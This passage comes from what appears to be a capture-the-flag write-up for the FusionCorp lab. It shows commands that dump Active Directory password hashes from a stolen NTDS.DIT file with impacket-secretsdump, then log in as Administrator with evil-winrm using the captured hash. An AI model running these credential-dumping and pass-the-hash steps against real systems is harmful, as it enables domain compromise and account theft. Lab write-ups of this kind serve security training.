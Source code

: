 After successful download of NTDS.DIT and SYSTEM files we use [secretsdump.py](http://secretsdump.py) to dump all the secrets of the domain.

```bash
impacket-secretsdump -ntds ntds.dit -system system LOCAL
```

![image.png](/assets/images/FusionCorpTHM/image%2029.png)

Output of secretsdump.py

## Shell as Administrator

Now we have the hash of the Administrator account.

```bash
evil-winrm -i 10.10.248.100 -u 'Administrator' -H 9653b02d945329c7270525c4c2a69c67
```

First we retrieve the flag for Jmurphy.

![image.png](/assets/images/FusionCorpTHM/image%2030.png)
